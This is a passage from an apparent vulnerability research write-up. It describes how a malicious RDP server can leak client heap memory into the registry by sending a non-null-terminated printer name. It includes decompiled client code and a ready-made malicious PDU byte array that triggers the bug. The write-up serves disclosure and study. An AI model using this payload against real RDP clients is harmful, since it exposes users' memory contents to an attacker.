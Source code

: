 ```cpp
    0,
    0xF003F,
    0,
    &hKey,
    &dwDisposition
  );

  RegCreateKeyExW(hKey, PrinterName, 0, 0, 0, 0xF003F, 0, &phkResult, &dwDisposition);
  
  RegSetValueExW(phkResult, L"PrinterCacheData", 0, 3, (const BYTE *)PduBody, TotalLen);
  
  // ...
}
```

I don't think you can do much damage inside the registry itself with this kind of creation-of-a-subkey-with-arbitrary-name primitive. For instance, there is no such thing as a path traversal attack. 

However, something really bugged me out. Some key names in the registry seemed **longer than usual**, which made me think there could be an issue with **length management**.

I couldn't find anything as interesting as controlling the size of an out-of-bounds through the different length fields, be it in this PDU type (Add Printer Cachedata) or other ones (Update Printer Cachedata, Rename Printer Cachedata...).

Therefore, the bug naturally comes from the fact that the server can send a **non-null-terminated wide string** to the client as the `PrinterName`. It is naively passed to `RegCreateKeyExW` (the second one), which will create the key assuming its name stops at the first wide null-byte (two consecutive null bytes). 

# Leaking heap through the client registry

Here is an example of a malicious PDU that will trigger the bug:

```c
char leak_heap[] = {
  // DR_PRN_ADD_CACHEDATA
  0x52, 0x50, 0x43, 0x50,                         // Header
  0x01, 0x00, 0x00, 0x00,                         // EventId
  0x43, 0x4f, 0x4d, 0x32, 0x00, 0x00, 0x3a, 0x00, // PortDosName
  0x00, 0x00, 0x00, 0x00,                         // PnpNameLen
  0x2a, 0x00, 0x00, 0x00,                         // DriverNameLen
  0x2a, 0x00, 0x00, 0x00,                         // PrintNameLen
  0x00, 0x00, 0x00, 0x00,                         // CachedFieldsLen
  // DriverName
  0x42, 0x00, 0x72, 0x00, 0x6f, 0x00, 0x74,
  0x00, 0x68, 0x00, 0x65, 0x00, 0x72, 0x00,
  0x20, 0x00, 0x44, 0x00, 0x43, 0x00, 0x50,
  0x00, 0x2d, 0x00, 0x31, 0x00, 0x30, 0x00,
  0x30, 0x00, 0x30, 0x00, 0x20, 0x00, 0x55,
  0x00, 0x53, 0x00, 0x42, 0x00, 0x00, 0x00,
  // PrinterName
  0x42, 0x00, 0x72, 0x00, 0x6f, 0x00, 0x74,
  0x00, 0x68, 0x00, 0x65, 0x00, 0x72, 0x00,
  0x20, 0x00, 0x44, 0x00, 0x43, 0x00, 0x50,
  0x00, 0x2d, 0x00, 0x31, 0x00, 0x30, 0x00,
  0x30, 0x00, 0x30, 0x00, 0x20, 0x00, 0x55,
  0x00, 0x53, 0x00, 0x42, 0x00, 0x20, 0x00,
  0x61, 0x62, 0x63, 0x64
};
```
